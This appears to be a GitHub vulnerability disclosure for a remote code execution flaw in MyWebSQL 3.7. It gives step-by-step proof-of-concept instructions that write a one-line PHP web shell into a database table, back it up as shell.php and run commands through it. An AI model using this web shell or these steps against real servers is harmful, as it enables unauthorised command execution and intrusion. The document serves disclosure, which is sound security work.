 ## MyWebSQL ver 3.7 remote code execution (RCE) vulnerability Description
- Author: YU-HSIANG HUANG, YUNG-HAO TSENG, Eddie TC CHANG
- Contact: huang.yuhsiang.phone@gmail.com; 0xuhaw@gmail.com; eddietcchang@gmail.com
---
### Testing Target
- Product: MyWebSQL
- Version: 3.7
- Official Website: http://mywebsql.net/
- Github: https://github.com/Samnan/MyWebSQL

### Summary
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability.

### Description
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability after write a shell code in database and execute `Backup Database` function.
 
### Concept
1. Create a test table (code) and write a shell code in this table.  
 **Shell code example**: `<?php system($_GET[cmd]); ?>`
![](./png/1.png)
2. Execute `Backup Database` function and modify Backup filename as `shell.php`.
![](./png/2.png)
3. Browse `(domain)/mywebsql/backups/shell.php?cmd=XXX`. For instance, `cmd=ipconfig` as below figure.
![](./png/3.png)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTExNTM4NTkwNDgsLTE5MDA5MDgwMDgsLT
E5MTcyOTM4ODcsMTEwMjQ0NzAxOF19
-->